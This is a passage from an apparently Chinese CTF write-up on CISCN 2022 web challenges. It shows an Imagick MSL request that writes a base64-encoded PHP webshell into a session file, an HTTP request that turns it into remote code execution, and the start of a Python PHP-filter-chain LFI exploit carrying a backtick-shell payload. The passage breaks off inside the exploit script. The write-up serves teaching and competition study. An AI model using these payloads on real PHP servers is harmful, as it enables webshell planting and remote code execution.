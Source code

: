 ```
 <read filename="inline:data://image/x-portable-anymap;base64,UDYKOSA5CjI1NQoAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADw/cGhwIGV2YWwoJF9HRVRbMV0pOz8+fE86ODoiYmFja2Rvb3IiOjI6e3M6NDoicGF0aCI7czoxNDoiL3RtcC9zZXNzX2Fma2wiO3M6MTI6ImRvX2V4ZWNfZnVuYyI7YjowO30=" />
 <write filename="/tmp/sess_afkl" />
</image>
--------------------------c32aaddf3d8fd979--
```

随后使用执行一次任意无参函数的功能，触发`session_start`函数，并设置`cookie`为`PHPSESSID=afkl`，即可文件包含`session`，成功`RCE`。`flag`执行根目录的`readflag`即可。

```
GET /?data=O%3A8%3A%22backdoor%22%3A2%3A%7Bs%3A5%3A%22class%22%3Bs%3A13%3A%22session_start%22%3Bs%3A12%3A%22do_exec_func%22%3Bb%3A1%3B%7D&cmd=unserialze&1=system('/readflag'); HTTP/1.1
Host: 127.0.0.1:18080
Accept: */*
Cookie: PHPSESSID=afkl
```

学到的点：

1. session可以触发`__sleep()`的魔法函数
2. 利用`imagick`扩展写马

可以学学：

https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/

##  web_just

出题人：https://github.com/zhcy2018/ciscn2022-build/

首先是gmp的问题，恰巧比赛前存资料的时候看到有gmp

https://paper.seebug.org/1909/

有几个小trick：一个是内联注释绕过函数匹配正则，一个是require()也可以动态执行，我们利用陆队的`LFI`新手法

直接给出payload

```python
import requests
import base64

# <?=`$_GET[0]`;;?>
def php_lfi(base64_payload = "PD89YCRfR0VUWzBdYDs7Pz4"):

    #参数file
    file_to_use = "/etc/passwd"

    conversions = {
        'R': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2',
        'B': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.CP1256.UCS2',
        'C': 'convert.iconv.UTF8.CSISO2022KR',
        '8': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2',
        '9': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB',
        'f': 'convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213',
        's': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L3.T.61',
        'z': 'convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937',
        'U': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932',
        'P': 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB',
```